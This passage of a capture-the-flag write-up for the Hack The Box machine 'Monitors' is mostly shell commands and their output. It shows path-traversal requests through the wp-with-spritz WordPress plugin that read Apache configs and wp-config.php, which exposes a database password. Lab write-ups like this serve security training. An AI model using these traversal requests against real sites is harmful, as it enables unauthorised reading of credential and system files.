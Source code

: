 So, let’s check Apache’s configuration:

```zsh
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/apache2/sites-enabled/000-default.conf
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf

<VirtualHost *:80>
[...]
```

We then find a new domain to add:

```zsh
┌──(root㉿kali)-[/home/kali]
└─# echo "10.10.10.238 cacti-admin.monitors.htb" >> /etc/hosts
```

The `monitors.htb` config shows the site’s document root is `/var/www/wordpress`:

```zsh
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/apache2/sites-enabled/monitors.htb.conf 
[...]
        ServerAdmin admin@monitors.htb
        ServerName monitors.htb
        ServerAlias monitors.htb
        DocumentRoot /var/www/wordpress
[...]
```

Then the WordPress config file `wp-config.php` gives us the database password:

```zsh
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../var/www/wordpress/wp-config.php

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```

## Cacti

Let’s go to the new site we found: